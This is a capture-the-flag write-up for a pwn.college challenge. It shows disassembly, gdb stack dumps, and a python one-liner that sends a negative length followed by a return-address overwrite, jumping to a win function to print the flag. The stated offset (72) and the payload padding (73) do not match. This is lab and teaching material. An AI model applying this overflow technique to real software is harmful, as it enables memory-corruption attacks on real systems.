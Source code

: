 In this challenge we can input any payload size as the program prohibits it.

From `objdump`
  
    4014de:	83 f8 2b             	cmp    eax,0x2b
    4014e1:	7e 16                	jle    4014f9 <challenge+0x9f>
    4014e3:	48 8d 3d 34 0c 00 00 	lea    rdi,[rip+0xc34]        # 40211e <_IO_stdin_used+0x11e>
    4014ea:	e8 21 fc ff ff       	call   401110 <puts@plt>
    4014ef:	bf 01 00 00 00       	mov    edi,0x1
    4014f4:	e8 97 fc ff ff       	call   401190 <exit@plt>
    4014f9:	8b 45 bc             	mov    eax,DWORD PTR [rbp-0x44]
    4014fc:	89 c6                	mov    esi,eax
    4014fe:	48 8d 3d 3b 0c 00 00 	lea    rdi,[rip+0xc3b]        # 402140 <_IO_stdin_used+0x140>
    401505:	b8 00 00 00 00       	mov    eax,0x0
    40150a:	e8 21 fc ff ff       	call   401130 <printf@plt>
    40150f:	8b 45 bc             	mov    eax,DWORD PTR [rbp-0x44]
    401512:	89 c2                	mov    edx,eax
    401514:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    401518:	48 89 c6             	mov    rsi,rax
    40151b:	bf 00 00 00 00       	mov    edi,0x0
    401520:	e8 2b fc ff ff       	call   401150 <read@plt>

If the value in `eax` register is greater than `0x2b` or `43` then the `challenge()` function calls the `exit()` function

The problem here is that the program accepts input using `read()` function 
From the man page of read `ssize_t read(int fd, void buf[.count], size_t count);`
The parameter that takes takes the size of the input is an unsigned integer which means that if we input a negative value then we can bypass the cmp instruction and the size of input will also be sufficient enough to overwrite the return address.

The address of win function is `0x401353`

    (gdb) x /32z $rsp
    0x7ffd21497860:	0x2063d6a0	0x00007465	0x21498a08	0x00007ffd
    0x7ffd21497870:	0x214989f8	0x00007ffd	0x00000000	0x00000001
    0x7ffd21497880:	0x00000000	0x00000000	0x204e0e93	0x00000017
    0x7ffd21497890:	0x41414141	0x00000a41	0x00000000	0x00000000
    0x7ffd214978a0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffd214978b0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffd214978c0:	0x21498900	0x00007ffd	0x21497890	0x00007ffd
    0x7ffd214978d0:	0x21498900	0x00007ffd	0x00401633	0x00000000

The return address of challenge function if `0x401633` which is at the address `0x7ffd214978d8`
The input buffer starts at `0x7ffd21497890` 
The offset is `72`

The payload

    python -c 'import sys, time; sys.stdout.buffer.write(b"-1"); time.sleep(2); sys.stdout.buffer.write(b"A"*73 + b"\x53\x13\x40")' | ./program

The flag

    pwn.college{YurlbC44EQGf7pBF3PLkr6m5Q0-.0lN5IDL5kzM1czW}
